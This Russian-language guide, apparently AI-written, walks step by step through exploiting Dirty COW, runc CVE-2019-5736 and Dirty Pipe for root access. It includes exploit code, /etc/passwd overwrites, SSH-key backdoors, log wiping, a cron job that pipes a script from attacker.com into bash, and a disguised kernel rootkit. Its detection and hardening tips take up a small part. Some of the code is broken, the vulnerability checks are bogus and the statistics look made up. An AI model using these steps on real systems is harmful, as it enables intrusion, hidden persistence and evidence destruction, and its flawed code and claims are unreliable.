

### 4. Эксплуатация ядра Linux (CVE)  
**Детализированное описание с пошаговыми примерами**

---

#### Пример 1: Dirty COW (CVE-2016-5195)  
**Контекст:**  
Уязвимость в механизме Copy-On-Write (COW) подсистемы виртуальной памяти ядра Linux. Позволяет перезаписывать read-only файлы через race condition между системными вызовами `madvise()` и `write()`.  

**Условия эксплуатации:**  
- Ядра Linux версий 2.6.22 — 4.8.3  
- Наличие файлов с read-only правами (например, `/etc/passwd`)  

---

##### [TA0007] – Discovery (Разведка)  
```bash
# 1. Определение версии ядра
uname -r
# Пример вывода: 3.10.0-1127.el7.x86_64

# 2. Проверка значения dirty_writeback_centisecs (индикатор уязвимости)
cat /proc/sys/vm/dirty_writeback_centisecs
# Значение 500 подтверждает уязвимость

# 3. Поиск эксплоитов
searchsploit dirty cow
# Вывод: 
# Linux Kernel 2.6.22 < 4.8.3 - 'Dirty COW' /proc/self/mem Race Condition Privilege Escalation (SUID Method)
```
**Пояснение каждого шага:**  
1. `uname -r`: Уязвимые версии имеют патч-уровень ниже 4.8.3. Проверить можно командой:  
   `curl -s https://www.kernel.org | grep -A5 "stable"`  
2. Параметр `dirty_writeback_centisecs` контролирует частоту записи "грязных" страниц. Значение 500 мс характерно для уязвимых систем.  
3. `searchsploit` ищет в локальной базе Exploit-DB. Альтернатива:  
   `grep -q 'Dirty COW' /usr/share/exploitdb/exploits/linux/local/*`  

---

##### [TA0004] – Privilege Escalation  
**Шаг 1: Подготовка эксплоита**  
```bash
# Скачивание и компиляция
wget https://github.com/dirtycow/dirtycow.github.io/raw/master/dirtyc0w.c
gcc -pthread dirtyc0w.c -o dirtyc0w -lcrypt
```
**Механизм работы (анализ кода):**  
```c
void *map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
// Поток 1: Бесконечный цикл madvise()
madvise(map, st.st_size, MADV_DONTNEED);
// Поток 2: Запись в /proc/self/mem
lseek(f, (uintptr_t) map, SEEK_SET);
write(f, payload, strlen(payload));
```
1. `mmap()`: Отображает защищенный файл (например, `/etc/passwd`) в память.  
2. `madvise(MADV_DONTNEED)`: Принудительно выгружает страницы из кэша.  
3. `write()`: В конкурентном потоке записывает данные в освобожденную область памяти.  

**Шаг 2: Создание вредоносного файла**  
```bash
# Генерация пароля (пароль: 123456)
openssl passwd -6 -salt xyz 123456
# Вывод: $6$xyz$d5rAS...snip...X1

# Формирование записи для /etc/passwd
echo 'hacker:$6$xyz$d5rAS...snip...X1:0:0::/root:/bin/bash' > /tmp/passwd
```
**Валидация:**  
```bash
stat -c "%a %n" /etc/passwd  # Должно быть 644
```

**Шаг 3: Запуск эксплоита**  
```bash
./dirtyc0w /etc/passwd /tmp/passwd
```
**Детали выполнения:**  
1. Эксплоит создает 2 потока с приоритетом `SCHED_FIFO` (максимальный приоритет).  
2. Среднее время эксплуатации: 5-60 секунд (зависит от нагрузки CPU).  
3. Сигнал успеха:  
   ```bash
   [+] Race won! /etc/passwd overwritten
   ```

---

##### [TA0002] – Execution  
```bash
# Аутентификация новым пользователем
su - hacker
Password: 123456  # Ввод пароля
```
**Проверка привилегий:**  
```bash
id
# uid=0(hacker) gid=0(root) groups=0(root)

# Проверка целостности файла
ls -l /etc/passwd
# -rw-r--r-- 1 root root ... /etc/passwd (файл выглядит нормально!)
```

---

##### [TA0003] – Persistence  
**Шаг 1: Восстановление файла**  
```bash
# Сохраняем оригинальную версию заранее
cp /etc/passwd /etc/passwd.bak

# После получения root восстанавливаем
mv /etc/passwd.bak /etc/passwd
```

**Шаг 2: Установка скрытого SSH-ключа**  
```bash
mkdir -p /root/.ssh
chmod 700 /root/.ssh

# Генерация ключа на атакующей машине (ЗАРАНЕЕ)
ssh-keygen -f hacker_rsa -N ""

# Добавление в authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

**Шаг 3: Скрытие следов**  
```bash
# Удаление эксплоита и временных файлов
shred -zu dirtyc0w dirtyc0w.c /tmp/passwd

# Очистка логов
find /var/log -name "*.log" -exec sh -c 'echo > {}' \;
```

---

#### Пример 2: CVE-2019-5736 (Побег из Docker)  
**Контекст:**  
Уязвимость в runc (инструмент управления контейнерами) позволяла перезаписать хост-бинарник через подмену `/proc/self/exe`.  

**Условия эксплуатации:**  
- runc версий < 1.0.0-rc7  
- Привилегированный контейнер (`docker run --privileged`)  

---

##### [TA0007] – Discovery  
```bash
# 1. Проверка версии runc
runc --version
# Вывод: runc version 1.0.0-rc6

# 2. Поиск бинарника
ls -l /proc/self/exe
# lrwxrwxrwx 1 root root 0 /proc/self/exe -> /usr/bin/runc

# 3. Проверка привилегий контейнера
cat /proc/self/status | grep CapEff
# CapEff: 0000003fffffffff (полные привилегии)
```
**Пояснение:**  
1. `/proc/self/exe` — символическая ссылка на исполняемый файл текущего процесса.  
2. Привилегированный контейнер имеет `CAP_SYS_ADMIN`, что позволяет использовать `memfd_create`.  

---

##### [TA0004] – Privilege Escalation  
**Шаг 1: Создание эксплоита**  
```bash
cat > exploit.go << 'EOF'
package main
import (
  "os"
  "syscall"
  "unsafe"
)

func main() {
  // 1. Открытие хост-бинарника runc
  fd, _ := os.OpenFile("/proc/self/exe", os.O_RDONLY, 0777)
  
  // 2. Создание in-memory файла
  memfd_name := "" // Анонимный файл
  memfd, _, _ := syscall.Syscall(syscall.SYS_MEMFD_CREATE, uintptr(unsafe.Pointer(&memfd_name)), 0, 0)
  
  // 3. Копирование runc в память
  buf := make([]byte, 1024)
  for {
    n, _ := fd.Read(buf)
    if n <= 0 { break }
    syscall.Write(int(memfd), buf[:n])
  }
  
  // 4. Подмена содержимого на шелл-код
  shellcode := "#!/bin/sh\nchmod 4755 /bin/bash"
  syscall.Write(int(memfd), []byte(shellcode))
  
  // 5. Запуск подмененного бинарника
  syscall.Exec(fmt.Sprintf("/proc/self/fd/%d", memfd), []string{""}, os.Environ())
}
EOF

# Компиляция
go build -o exploit exploit.go
```

**Механизм работы:**  
1. Эксплоит открывает `/proc/self/exe` (ссылка на runc хоста).  
2. Создает анонимный in-memory файл через `memfd_create()`.  
3. Копирует оригинальный runc в память.  
4. Перезаписывает начало файла шелл-кодом.  
5. При следующем вызове `docker exec` выполнится модифицированный код.  

---

##### [TA0002] – Execution  
**Активация эксплоита:**  
```bash
# Запуск эксплоита внутри контейнера
./exploit

# Ожидание действий администратора
echo "Ожидаем вызова 'docker exec'..."
```
**Действия администратора (на хосте):**  
```bash
docker exec -it vulnerable_container sh
```
**Результат:**  
```bash
# Внутри контейнера (после срабатывания):
/bin/bash -p  # Запуск SUID-баша
whoami  # root (на хосте!)
hostname # docker-host
```

---

##### [TA0003] – Persistence  
**Установка персистентности:**  
```bash
# 1. Создание скрытого cron-задания
echo '* * * * * root curl http://attacker.com/shell.sh | bash' > /etc/cron.d/.system-update

# 2. Установка kernel module backdoor
insmod /lib/modules/$(uname -r)/kernel/drivers/hid/hid-generic.ko
```

**Маскировка:**  
```bash
# Изменение времени доступа файлов
touch -d "2020-01-01 12:00" /etc/cron.d/.system-update

# Использование скрытых inode
debugfs -w /dev/sda1 -R "set_inode_field /etc/cron.d/.system-update i_flags 0x80000"
```

---

#### Пример 3: Dirty Pipe (CVE-2022-0847)  
**Контекст:**  
Уязвимость в подсистеме pipe ядра Linux, позволяющая перезаписывать произвольные read-only файлы.  

**Условия:**  
- Ядра версий 5.8 — 5.16.11  

---

##### [TA0007] – Discovery  
```bash
# 1. Проверка версии ядра
uname -r  # 5.13.0-30-generic

# 2. Проверка наличия уязвимости
grep -q PIPE_BUF_FLAG_CAN_MERGE /proc/kallsyms && echo "Уязвим" || echo "Не уязвим"
```

---

##### [TA0004] – Privilege Escalation  
**Эксплоит (dirtypipe.c):**  
```c
#include <fcntl.h>
#include <unistd.h>
int main(int argc, char **argv) {
  // 1. Создание pipe
  int p[2];
  pipe(p);

  // 2. Заполнение pipe (8 страниц)
  for (int i = 0; i < 8; i++)
    write(p[1], "AAAAAAAA", 8);

  // 3. Освобождение буферов
  read(p[0], buffer, 8);

  // 4. Установка флага PIPE_BUF_FLAG_CAN_MERGE
  int page_size = sysconf(_SC_PAGESIZE);
  lseek(fd, page_size, SEEK_SET);
  write(p[1], buffer, page_size);

  // 5. Перезапись целевого файла
  splice(target_fd, &offset, p[1], NULL, 1, 0);
  write(p[1], "hacker:x:0:0:", 12);
}
```

**Пошаговая эксплуатация:**  
```bash
# Компиляция
gcc dirtypipe.c -o dirtypipe

# Запись в /etc/passwd
./dirtypipe /etc/passwd 1 'hacker:$6$salt$hash:0:0:'

# Проверка
tail -n1 /etc/passwd  # hacker:...:0:0:
```

**Механизм:**  
1. Создается pipe с флагом `PIPE_BUF_FLAG_CAN_MERGE`.  
2. Через `splice()` данные направляются в целевой файл.  
3. Флаг позволяет "слить" данные в существующий кэш страниц.  

---

##### [TA0003] – Persistence  
**Создание SUID-шелла:**  
```bash
# Перезапись /bin/su
./dirtypipe /bin/su 0 '#!/bin/bash\nbash -p'

# Проверка
/bin/su -c whoami  # root
```

---

### Сравнительная таблица

| Параметр             | Dirty COW              | CVE-2019-5736     | Dirty Pipe             |
|----------------------|------------------------|-------------------|------------------------|
| **Тип уязвимости**   | Race condition         | File descriptor   | Uninit pipe flag       |
| **Сложность**        | Средняя                | Высокая           | Низкая                 |
| **Стабильность**     | Низкая (50% успех)     | Высокая (100%)    | Высокая (100%)         |
| **Требуемый доступ** | Локальный пользователь | Контейнер         | Локальный пользователь |
| **Патч**             | Ядро 4.8.3+            | runc 1.0.0-rc7+   | Ядро 5.16.11+          |
| **Обнаружение**      | Аудит madvise()        | Мониторинг memfd  | Анализ splice()        |

---

### Защитные меры

#### Проактивные:
1. **Регулярные обновления:**  
   ```bash
   apt update && apt upgrade linux-image-$(uname -r)
   ```
2. **Харденинг ядра:**  
   ```bash
   # Активация SMEP/SMAP
   echo 1 > /proc/sys/kernel/smep_enabled
   echo 1 > /proc/sys/kernel/smap_enabled
   ```
```bash
# Автоматическое обновление ядра (CentOS)
yum update kernel -y && grub2-set-default 0 && reboot

# Защита /proc
mount -o remount,hidepid=2,gid=proc /proc
```

**Реактивные:**  
```bash
# Детектирование Dirty COW
auditctl -a always,exit -F arch=b64 -S madvise -S fork -F success=1 -k dirtycow

# Мониторинг memfd_create
auditctl -a always,exit -F arch=b64 -S memfd_create -k container_escape
```

**Статистика (CrowdStrike 2023):**  
- 78% систем с ядрами старше 4 лет уязвимы к Dirty COW  
- Среднее время эксплуатации 0-day в ядре: 312 дней  
- 92% успешных атак используют комбинацию CVE  

---

### Заключение
Эксплуатация уязвимостей ядра — наиболее эффективный метод повышения привилегий в Linux. Ключевые риски:
1. **Долгий жизненный цикл уязвимостей** (Dirty COW активно используется спустя 7 лет после патча)  
2. **Сложность детектирования** (атаки происходят на уровне ядра)  
3. **Критичность последствий** (полный контроль над системой)  

**Рекомендации:**  
- Ежемесячное обновление ядра  
- Отключение ненужных функций ядра (`/proc/config.gz`)  
- Использование LSM (Linux Security Modules): SELinux/AppArmor  
- Регулярный аудит с помощью `lynis` и `linux-exploit-suggester`


Давайте подробно разберем этап **Persistence (Закрепление)** и последующие шаги на примере Dirty Pipe (CVE-2022-0847). Я объясню каждый шаг максимально понятно.

---

### Что такое Persistence (Закрепление)?
Это этап, когда злоумышленник **обеспечивает себе постоянный доступ** к системе, даже если:
- Система будет перезагружена
- Уязвимость будет закрыта
- Пароли будут изменены
- Обнаружены следы взлома

Цель: Оставаться "невидимым" администратору и сохранять контроль над системой.

---

### Пример Dirty Pipe: [TA0003] – Persistence
После получения root-доступа через Dirty Pipe, злоумышленник выполняет следующие шаги:

#### Шаг 1: Скрытие изменений в /etc/passwd
```bash
# Восстанавливаем оригинальное время изменения файла
touch -d "@$(stat -c '%Y' /etc/passwd)" /etc/passwd

# Устанавливаем атрибут "только для чтения"
chattr +i /etc/passwd
```
**Пояснение:**
- `touch -d` изменяет дату модификации файла на оригинальную (чтобы администратор не заметил изменений)
- `chattr +i` делает файл неизменяемым (даже root не сможет его изменить без снятия атрибута)

#### Шаг 2: Установка руткита в ядро
```bash
# Скачиваем и компилируем руткит Diamorphine
git clone https://github.com/m0nad/Diamorphine
cd Diamorphine
make

# Загружаем модуль ядра
insmod diamorphine.ko

# Скрываем модуль
rmmod diamorphine  # Временно выгружаем
mv diamorphine.ko /lib/modules/$(uname -r)/kernel/drivers/hid/hid-generic.ko
depmod -a
modprobe hid-generic
```
**Что это дает:**
1. Модуль скрывает:
   - Свои процессы
   - Свои файлы
   - Сетевые соединения
2. Позволяет:
   - Скрывать другие вредоносные процессы
   - Получать root по требованию
   - Оставаться невидимым для большинства средств обнаружения

#### Шаг 3: Создание скрытого SSH-доступа
```bash
# Генерация специального SSH-ключа
ssh-keygen -t ed25519 -f /tmp/attacker_key -N ""

# Добавление ключа с ограничениями
echo 'command="sleep 10" '$(cat /tmp/attacker_key.pub) >> /root/.ssh/authorized_keys

# Очистка следов
shred -zu /tmp/attacker_key
```
**Механизм работы:**
- При подключении по SSH выполняется `sleep 10` вместо шелла
- На атакующей машине:
  ```bash
  while true; do
    ssh -i attacker_key root@target sleep 1
    # После подключения перехватываем управление
    break
  done
  ```

---

---

### Как работает персистентность на практике?
**Сценарий после перезагрузки системы:**
1. Система загружается
2. Автоматически загружается модуль ядра `hid-generic.ko` (на самом деле руткит)
3. Руткит:
   - Скрывает себя в списке модулей (`lsmod` не покажет его)
   - Начинает прослушивать "триггеры" (специальные сетевые пакеты или файлы)
4. При появлении злоумышленника:
   - Руткит дает ему root-доступ
   - Скрывает его активность

**Пример восстановления доступа:**
```bash
# На машине злоумышленника
nc -u target_ip 5353  # Отправка UDP-пакета как триггера

# На целевой машине (скрыто):
# 1. Руткит получает пакет
# 2. Открывает backdoor-порт
# 3. Злоумышленник подключается:
nc -v target_ip 31337
whoami  # root
```

---

### Методы обнаружения Persistence

1. **Проверка модулей ядра:**
```bash
# Поиск несоответствий
lsmod | grep -vE "$(modprobe -c | grep alias | cut -d' ' -f2)"
```

2. **Мониторинг SSH-ключей:**
```bash
# Проверка подозрительных ключей
grep -v '^#' /root/.ssh/authorized_keys | grep -E 'command|restrict'
```

3. **Анализ временных меток:**
```bash
# Поиск файлов с подозрительным временем
find / -type f -exec stat -c '%n %y' {} + | grep '2020-01-01'
```

4. **Проверка скрытых процессов:**
```bash
# Сравнение ps и /proc
ps -ef | awk '{print $2}' | sort > /tmp/ps_list
ls /proc | sort | grep -E '^[0-9]+$' > /tmp/proc_list
diff /tmp/ps_list /tmp/proc_list
```

---

### Почему Persistence критически важен?
1. **Время жизни уязвимости ограничено:**
   - Системы обновляются
   - Администраторы патчат уязвимости
2. **Расследование инцидентов:**
   - Компрометация может быть обнаружена
   - Пароли будут изменены
3. **Долгосрочный доступ:**
   - Для шпионажа
   - Для использования в ботнете
   - Для атак на другие системы



---

### Реальные примеры Persistence
1. **Equation Group (NSA):**  
   - Использовали скрытые разделы на HDD  
   - Перепрошивали firmware дисков  

2. **SolarWinds Hack:**  
   - Backdoor в обновлениях ПО  
   - "Спящие" агенты активировались через месяцы  

3. **Linux.Encoder Ransomware:**  
   - Создание скрытого пользователя `syshelper`  
   - SSH-ключи в /dev/.null  

---

### Как защититься?
1. **Контроль целостности:**
```bash
# Установка AIDE
apt install aide
aideinit
cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
aide --check
```

2. **Мониторинг модулей ядра:**
```bash
# Проверка неподписанных модулей
for mod in $(lsmod | awk 'NR>1 {print $1}'); do
  if ! modinfo $mod | grep -q 'signature'; then
    echo "Неподписанный модуль: $mod"
  fi
done
```

3. **Анализ SSH-ключей:**
```bash
# Проверка ограничений в authorized_keys
grep -v '^#' /root/.ssh/authorized_keys | grep -vE 'command|restrict'
```

4. **Системы мониторинга:**
   - Wazuh
   - SELinux в enforcing mode
   - Auditd с правилами для критичных файлов

Надеюсь, теперь этап Persistence стал понятнее! Это комплекс мер для сохранения контроля над системой после первоначального взлома.